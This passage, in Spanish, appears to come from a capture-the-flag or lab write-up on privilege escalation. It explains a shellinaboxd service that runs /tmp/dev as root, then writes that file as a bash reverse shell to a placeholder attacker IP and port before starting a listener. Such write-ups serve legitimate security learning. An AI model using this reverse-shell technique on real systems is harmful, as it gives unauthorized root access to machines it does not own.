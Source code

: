 Vemos que en esta parte de aqui:

```
2025/05/31 04:07:51 CMD: UID=107   PID=455    | /usr/bin/shellinaboxd -q --background=/var/run/shellinaboxd.pid -c /var/lib/shellinabox -p 4200 -u shellinabox -g shellinabox --user-css Black on White:+/etc/shellinabox/options-enabled/00+Black on White.css,White On Black:-/etc/shellinabox/options-enabled/00_White On Black.css;Color Terminal:+/etc/shellinabox/options-enabled/01+Color Terminal.css,Monochrome:-/etc/shellinabox/options-enabled/01_Monochrome.css --no-beep --disable-ssl --localhost-only -s/:LOGIN -s /devel:root:root:/:/tmp/dev                                                                                      
2025/05/31 04:07:51 CMD: UID=107   PID=453    | /usr/bin/shellinaboxd -q --background=/var/run/shellinaboxd.pid -c /var/lib/shellinabox -p 4200 -u shellinabox -g shellinabox --user-css Black on White:+/etc/shellinabox/options-enabled/00+Black on White.css,White On Black:-/etc/shellinabox/options-enabled/00_White On Black.css;Color Terminal:+/etc/shellinabox/options-enabled/01+Color Terminal.css,Monochrome:-/etc/shellinabox/options-enabled/01_Monochrome.css --no-beep --disable-ssl --localhost-only -s/:LOGIN -s /devel:root:root:/:/tmp/dev
```

Hace esto de forma desglosada.

|                                                                                                                                     |                                                                                |
| ----------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------ |
| `-q`                                                                                                                                | Modo silencioso (quiet).                                                       |
| `--background=...`                                                                                                                  | Crea un archivo PID para el demonio.                                           |
| `-c /var/lib/shellinabox`                                                                                                           | Directorio base para configuración.                                            |
| `-p 4200`                                                                                                                           | Expone el servicio en el puerto **4200**.                                      |
| `-u shellinabox -g shellinabox`                                                                                                     | Ejecuta como el usuario y grupo `shellinabox`.                                 |
| `--disable-ssl`                                                                                                                     | No usa HTTPS (¡peligroso si accesible remotamente!).                           |
| `--localhost-only`                                                                                                                  | Solo acepta conexiones locales (`127.0.0.1`).                                  |
| `-s /:LOGIN`                                                                                                                        | Crea un endpoint `/` que muestra una terminal de login normal.                 |
| `-s /devel:root:root:/:/tmp/dev`                                                                                                    | **Crea un endpoint `/devel` que abre una terminal como `root` en `/tmp/dev`**. |
| Esta claro que el mas interesante aqui es en el que crea un `endpoint` como el usuario `root`, por lo que vamos hacer lo siguiente: |                                                                                |

```shell
cd /tmp
nano dev

#Dentro del nano
#!/bin/bash

bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

```shell
chmod +x dev
```

Lo guardamos y nos ponemos a la escucha en la maquina `host`.
